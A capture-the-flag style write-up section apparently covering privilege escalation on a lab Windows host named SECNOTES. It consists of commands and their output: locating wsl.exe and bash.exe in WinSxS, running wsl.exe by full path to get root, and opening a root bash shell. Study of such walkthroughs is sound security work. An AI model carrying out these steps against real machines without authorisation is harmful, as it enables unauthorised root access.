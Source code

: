 # PrivEsc
- escalate from user to root
- Found Linux Distro folder and Ubuntu
```
C:\Distros\Ubuntu>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Distros\Ubuntu

10/02/2024  01:38 PM    <DIR>          .
10/02/2024  01:38 PM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  13,883,731,968 bytes free
```

- Find `bash.exe` and`wsl.exe` #where
```
C:\Distros\Ubuntu>where /R c:\windows bash.exe
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe

C:\Distros\Ubuntu>where /R c:\windows wsl.exe
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

- `wsl.exe` runs as root by default so if we pass the full file path for it and follow with any command, it will execute:
```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```

- Upgrade to Linux terminal by executing the `bash.exe` with full fil path
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device

whoami
root
uname -a
Linux SECNOTES 4.4.0-17134-Microsoft #137-Microsoft Thu Jun 14 18:46:00 PST 2018 x86_64 x86_64 x86_64 GNU/Linux
```
